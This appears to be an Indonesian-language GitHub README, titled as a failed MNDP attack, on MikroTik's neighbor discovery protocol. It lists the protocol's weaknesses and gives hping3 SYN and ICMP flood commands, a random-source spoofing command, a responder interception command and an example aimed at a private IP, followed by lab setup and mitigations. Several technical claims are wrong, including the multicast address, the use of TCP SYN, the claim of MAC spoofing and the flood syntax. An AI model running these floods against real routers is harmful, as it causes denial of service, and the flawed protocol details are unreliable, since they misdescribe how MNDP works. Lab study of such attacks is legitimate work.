


# MNDP Attack (gagal)

## Cara Kerja MNDP (MikroTik Neighbor Discovery Protocol)

MNDP (MikroTik Neighbor Discovery Protocol) adalah protokol yang digunakan oleh perangkat MikroTik untuk menemukan dan bertukar informasi dengan perangkat MikroTik lain dalam jaringan lokal. Cara kerja MNDP adalah sebagai berikut:

1. Perangkat MikroTik secara berkala mengirimkan paket MNDP multicast ke alamat `01:80:C2:00:00:0E` (LLDP Multicast Address) di jaringan lokal.
2. Paket ini berisi informasi seperti MAC Address, Interface, Model Perangkat, Versi RouterOS, dan identifikasi lainnya.
3. Perangkat MikroTik lain yang menerima paket ini akan merespons dengan mengirimkan informasi mereka sendiri.
4. Data yang dikumpulkan dapat digunakan oleh administrator jaringan untuk pemetaan dan manajemen perangkat dalam jaringan.

---

## Potensi Kerentanan pada MNDP

MNDP memiliki beberapa kerentanan yang dapat dieksploitasi oleh penyerang:

1. **Pengumpulan Informasi**: Karena MNDP bersifat broadcast/multicast, siapa pun di jaringan lokal dapat menangkap paket ini menggunakan alat seperti Wireshark atau `tcpdump`.
2. **Spoofing**: Penyerang dapat mengirimkan paket MNDP palsu dengan informasi yang dimanipulasi untuk mengelabui perangkat MikroTik lain.
3. **Denial of Service (DoS)**: Dengan membanjiri jaringan dengan paket MNDP palsu, penyerang dapat menyebabkan perangkat target kehabisan sumber daya.
4. **Man-in-the-Middle (MitM) Attack**: Penyerang dapat menggunakan MNDP untuk menemukan target dalam jaringan dan kemudian melakukan serangan lebih lanjut, seperti ARP poisoning.

<!-- ---

## Langkah-Langkah Eksploitasi MNDP

Penyerang dapat menggunakan berbagai alat untuk mengeksploitasi MNDP, seperti:

### 1. Pengumpulan Informasi dengan nmap
```bash
nmap --script mikrotik-mndp-info <target_ip>
```
**Penjelasan:**
- Menggunakan skrip khusus di nmap untuk mendapatkan detail informasi dari perangkat MikroTik yang mengaktifkan MNDP.

--- -->

### 1. Serangan MitM dengan responder
```bash
responder -I <interface> -w
```
**Penjelasan:**
- Responder dapat digunakan untuk mencegat paket MNDP dan mencoba mendapatkan kredensial atau informasi lainnya.

---

### 2. Serangan DoS dengan hping3

#### a) Mengirimkan ribuan paket SYN ke port 5678 (MNDP)
```bash
hping3 -c 10000 -i u10 -S -p 5678 <target_ip>
```
**Penjelasan:**
- `-c 10000`: Mengirimkan 10.000 paket.
- `-i u10`: Interval antar paket dalam mikrodetik.
- `-S`: Menggunakan flag SYN.
- `-p 5678`: Menargetkan port MNDP.

#### b) Mengirimkan paket ICMP Flood untuk membanjiri target
```bash
hping3 --flood 2 --icmp <target_ip>
```
**Penjelasan:**
- `--flood`: Mengirimkan paket sebanyak mungkin.
- `--icmp`: Menggunakan paket ICMP (Ping Flood).

#### c) Spoofing MNDP dengan MAC Address palsu
```bash
hping3 -c 5000 -i u5 --rand-source -S -p 5678 <target_ip>
```
**Penjelasan:**
- `--rand-source`: Menggunakan alamat sumber acak (spoofing).
- `-i u5`: Interval antar paket 5 mikrodetik.

---

### 3. Mengecek Traffic MNDP
```bash
sudo tcpdump -i eth0 port 5678 -n
```
**Penjelasan:**
- `-i eth0`: Menentukan interface jaringan yang akan dipantau.
- `port 5678`: Menampilkan hanya paket yang menuju atau berasal dari port MNDP.
- `-n`: Tidak melakukan resolusi nama domain (lebih cepat).

### 4. contoh penggunaan
```bash
hping3 -c 10000 -i u10 -S -p 5678 172.16.0.1
sudo hping3 --flood 2 -S -p 5678 172.16.0.1
```
<!--  -->


---

## Eksploitasi MNDP dalam Lingkungan Lab Virtual

Untuk mempraktikkan eksploitasi MNDP dengan aman, lingkungan lab virtual dapat digunakan dengan langkah-langkah berikut:

### 1. Persiapan Lingkungan
- Gunakan VirtualBox atau VMware untuk membuat jaringan virtual yang terisolasi.
- Instal RouterOS di VM dan aktifkan MNDP pada interface yang digunakan.

### 2. Konfigurasi Perangkat MikroTik
- Pastikan fitur MNDP aktif dengan perintah:
```bash
/ip neighbor discovery-settings set discover-interface-list=all
```
- Gunakan Wireshark di VM lain untuk menangkap paket MNDP.

### 3. Pengujian Eksploitasi
- Jalankan `nmap` untuk mengumpulkan informasi MNDP dari target.
- Gunakan `responder` untuk melihat apakah ada data sensitif yang bisa ditangkap.
- Lakukan serangan DoS menggunakan `hping3` dan lihat dampaknya pada perangkat target.

### 4. Mitigasi
- Nonaktifkan MNDP pada interface yang tidak perlu dengan:
```bash
/ip neighbor discovery-settings set discover-interface-list=none
```
- Gunakan firewall untuk memblokir paket MNDP dari perangkat yang tidak dikenal.

Dengan menggunakan lingkungan lab virtual, eksploitasi MNDP dapat diuji tanpa membahayakan jaringan produksi.